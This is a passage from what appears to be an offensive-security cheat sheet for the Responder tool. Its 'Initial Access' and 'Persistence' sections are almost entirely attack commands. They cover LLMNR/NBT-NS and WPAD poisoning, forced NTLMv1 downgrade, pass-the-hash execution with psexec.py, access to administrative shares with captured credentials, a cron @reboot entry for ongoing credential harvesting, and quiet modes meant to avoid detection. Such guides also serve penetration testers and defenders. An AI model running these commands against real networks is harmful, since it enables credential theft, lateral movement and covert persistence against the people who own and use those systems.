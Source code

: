     ```

#### Initial Access

Responder is frequently used to gain initial access to a network by capturing credentials that can be leveraged to authenticate to systems.

1. **Capturing Domain Credentials**: The basic Responder setup is often sufficient to capture domain credentials via poisoned LLMNR and NBT-NS queries.
    ```bash
    responder -I <interface>
    ```
2. **Leveraging Captured Hashes for Access**: Uses captured NTLM hashes to execute commands on remote systems via SMB.
    ```bash
    psexec.py DOMAIN/username@target_ip -hashes :captured_hash
    ```
3. **Exploiting Weak Protocols**: Forces NTLMv1 authentication, capturing weaker hashes that can be cracked and used to gain access.
    ```bash
    responder -I <interface> -F
    ```
4. **Initial Pivot with Captured WPAD Credentials**: Uses captured WPAD credentials to pivot into web-based resources within the network.
    ```bash
    curl -x http://captured_user:captured_password@target_ip/ http://target_resource
    ```
5. **Establishing a Foothold with Captured SMB Hashes**: Accesses administrative shares using captured SMB credentials, establishing a foothold within the network.
    ```bash
    smbclient //target_ip/c$ -U "DOMAIN\captured_user%captured_password"
    ```

#### Persistence

After gaining access, Responder can be used to maintain persistence within the network by continually harvesting new credentials and monitoring network traffic.

1. **Continual Credential Harvesting**: Operates in passive mode, continually capturing hashes and credentials without actively poisoning the network.
    ```bash
    responder -I <interface> -p -v
    ```
2. **Reinforcing WPAD Poisoning**: Combines WPAD and SMB poisoning to capture credentials from different protocols, maintaining a presence on the network.
    ```bash
    responder -I <interface> -w -r
    ```
3. **Automated Persistence with Scheduled Tasks**: Schedules Responder to start on boot, ensuring it continues capturing credentials even after a system restart.
    ```bash
    echo "@reboot /usr/local/bin/responder -I <interface> -w" | crontab -
    ```
4. **Using Multiple Interfaces for Redundancy**: Runs Responder across multiple network interfaces, ensuring persistence across different network segments.
    ```bash
    responder -I <interface1> -I <interface2> -p
    ```
5. **Stealthy Monitoring and Credential Harvesting**: Introduces delays and runs in passive mode to reduce the risk of detection while continuously monitoring the network.
    ```bash
    responder -I <interface> -q 10 -p
    ```
